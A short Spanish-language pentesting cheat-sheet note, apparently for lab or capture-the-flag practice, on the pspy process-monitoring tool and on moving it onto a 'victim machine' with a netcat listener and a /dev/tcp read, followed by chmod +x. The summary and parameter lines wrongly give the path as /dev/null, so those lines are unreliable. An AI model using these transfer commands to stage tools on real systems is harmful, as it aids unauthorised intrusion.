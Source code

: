 #pspy

----

[Link de la herramienta pspy](https://github.com/DominicBreuker/pspy/releases/tag/v1.2.1)

------

# Resumen de comandos en orden

```shell
Desde nuestra maquina: nc -nlvp Puerto < NombreDelArchivo
Desde la maquina victima: cat < /dev/null/IpDeNuestraMaquina/Puerto > NombreDelArchivo
```
--------

Es una herramienta que permite **ver procesos en ejecución en tiempo real** en sistemas Linux **sin necesidad de privilegios root**.
![[pspy.png]]
Para pasarnos el pspy desde nuestra maquina a la maquina victima
```shell
Desde nuestra maquina: nc -nlvp Puerto < NombreDelArchivo
Ejemplo desde nuestra maquina: nc -nlvp 443 < pspy

Desde la maquina victima: cat < /dev/tcp/IpDeNuestraMaquina/Puerto > NombreDelArchivo
Ejemplo desde la maquina victima: cat < /dev/tcp/10.10.11.130/443 > pspy
```
Para mas informacion sobre el comando [[nc -nlvp 443]]

*Parametros comando maquina victima*
`cat` Es para ver el contenido de un archivo
`< /dev/null/IpDeNuestraMaquina/Puerto` Establece una conexion a nuestra maquina


##### Recordatorio
Una vez recibido el archivo a la maquina victima, recordar darle permisos de ejecucion
```shell
chmod +x NombreDelArchivo
Ejemplo: chmod +x pspy
```